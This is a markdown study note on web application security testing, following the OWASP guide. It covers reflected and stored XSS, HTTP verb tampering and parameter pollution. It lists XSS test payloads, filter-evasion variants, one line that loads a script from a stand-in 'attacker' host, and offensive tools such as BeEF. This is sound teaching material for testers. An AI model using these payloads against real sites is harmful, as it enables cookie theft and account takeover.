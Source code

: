 # Input Validation Testing
## Testing for Reflected Cross Site Scripting
It is not persistent and only impacts users who open a maliciously crafted link. Unvalidated input is sent through requests back to the client. Attacker creates and tests an offending URI (social engineering). Attacker's code is usually in Javascript. Commot attacks install key loggers, steal victim cookies, steal clipboard content, change page content etc.

In some cases, the web server cannot filter some encodings of characters :
eg. `"<script>"` can be filtered, but `"%3cscript%3e"` cannot.

### Tests
1. Detect input vectors - all user defined values and their input has to be determined. Some common hidden, non obvious inputs  are :
   - HTTP parameters
   - POST data
   - hidden form field values
   - predefined radio or selection values
2. Analyze each input vector to detect potential vulnerabilities. Use scpecial crafted input data with each vector. Test data can be generated by a web application fuzzer or a list of knwon attack strings or manually (polyglots).   
   - `<script>alert(document.cookie)</script>`
   - `"><script>alert(document.cookie)</script>`
For more check __XSS Filter Evasion Cheat Sheet__
3. For each test input analyze the result and determine if it represents a vulnerability. If a vulnerability is found, tester identifies any special characters that were not properly filtered.

Examples :
1. check GET parameters - `http://...../index.php?user=<script>alert(document.cookie)</script>`
2. check GET parameters - `http://...../index.php?user=<script>window.onload=function(){alert(document.cookie)}</script>`
3. The user can use input value to fill an attribute - `<input type="text" value="INPUT_FROM_USER">` and then the tester submit `“ onfocus=”alert(document.cookie)`
4. Different syntax or encoding - Insert unexpected variations in the syntax or encoding
   - `"><script>.........</script>`
   - `%3cscript%e alert(document.cookie) %3c/script%3e`
5. Bypassing non recursive filtering - Often input sanitization is _applied only once_
   - `<scr<script>ipt> alert(document.cookie) </script>`
6. Including external script - Assume that there is a regular expression checking if "<script*" (_anything but >_) is inserted. eg `<script src="http://....../xss.js"></script>` - bypass this by using the ">" character in an attribute between _script_ and _src_
   - `http://example/?var=<SCRIPT%20a=”>”%20SRC=”http://attacker/xss.js”></SCRIPT>`
7. HTTP Parameter Pollution - Splitting the attack vector between multiple parameters that have the same name
   - regular attack - `http://example/page.php?param=<script>...</script>`
   - using HPP - `http://example/page.php?param=<script&param=>...</&param=script>`

### Tools
- OWASP CAL9000
- PHP Charset encoder
- HackVector
- XSS_Proxy
- Ratproxy
- Burp
- OWASP Zed Attack Proxy
- OWASP Xenotic XSS Expoloit Framework

## Testing for Stored Cross Site Scripting
When malicious inout is stored for late use. This malicious code will appear as of the website and run within the user's browser under the privileges of the web app. It includes at least two requests to the application and is also called second-order XSS.

Stored XSS does not need a malicious link to be exploited. A typical scenario has the following phases :
- attacker stores malicious code into the vulnerable page
- user authenticates in the platform
- user visits vulnerable page
- malicious code is executed by the user's browser

### Tests
- Identify all points where user input is stored into the backend and then displayed by the application. For example
  - user profile
  - shopping cart
  - application file manager (if file upload is allowed)
  - application settings/ preferences
  - forum/message board
  - blog (comments)
  - log (if it stores some user input into logs)
- Determine if input is stored and how it is positioned in the context of the page (html tag for javascript)
- All the out-of-band channels through which the application receives and stores user input

Examples :
`<input class=..... type="text" name="email" value="aaa@aaa.bb"/>`
The tester needs to find a way to inject code outside the input tag
`<...>malicious code<!--  /> `

eg
`aaa@aaa.bb"><script>alert(document.cookie)</script>`

If "script" is replaced by space or null then the tester should examine the app for *XSS filtering*
Stored XSS can be exploited by advanced Javascript exploitation framerwords (BeEF, XSS Proxy, BackFrame)

### File upload
Check if the web app allows file upload with html or text content. Text files, jpg and gif can contain XSS payload
#### Image file contents
mpla mpla mpla <script>alert(document.cookie)</script>

### Tools
- OWASP CAL9000
- PHP Charset Encoding (PCE)
- HackVector
- BeEF
- XSS-Proxy
- BackFrame
- XSS Assistant
- Burp Suite
- XSS Filter Evasion Cheat Sheet

## Testing for HTTP Verb Tampering
HTTP specifications includes request methods other than the standard GET and POST, Many servers may respond to these alternative methods with not anticipated results.
Valid HTTP request methods are:
- OPTIONS
- GET
- HEAD
- POST
- PUT
- DELETE
- TRACE
- CONNECT
WebDAV extensions also permit
- PROPFIND
- PROPMATCH
- MKCOL
- COPY
- MOVE
- LOCK
- UNLOCK

Standard *href* links trigget a GET request. Form data (with method='POST' trigger
POST requests). Forms without method trigger GET requests.
HTML standard **DOES NOT** support other methods. All other methods need to be called outside
the html document. Javascript and AJAX allow other methods.

### Tests
Craft custom HTTP requests - preferably use a tool

### Manual HTTP verb tampering Testing
Use netcat package (or telnet)
1. Crafting custom HTTP requests. Each HTTP 1.1 request follows basic formatting and syntax. Type each request into *netcat* or *telnet* and examine the response.
  ```
  [METHOD]/[index.html]HTTP/1.1
  host:[www.example.com]
  ```
  where  METHOD can use OPTIONS, GET, HEAD, POST, PUT, DELETE, TRACE or CONNECT
2. Send the request (`nc host 80 < OPTIONS.http.txt`)
3. Parse HTTP responses. Except GET and POST, server must **either ignore the request or return error**. Any other method should be disabled

## Testing for HTTP Parameter Pollution (HPP)
Supplying multiple params with the same name may confuse the application. Anomalous behaviour can lead to a potential exploit.
- Input validation and filters bypass
- Authentication bypass
- Expected behaviour by Application server

*HTTP parameters assignment is being handled by the web server and not the web application. So, testing HPP requires manual testing.*
**HPP can manifest itself in client side and server side components.**
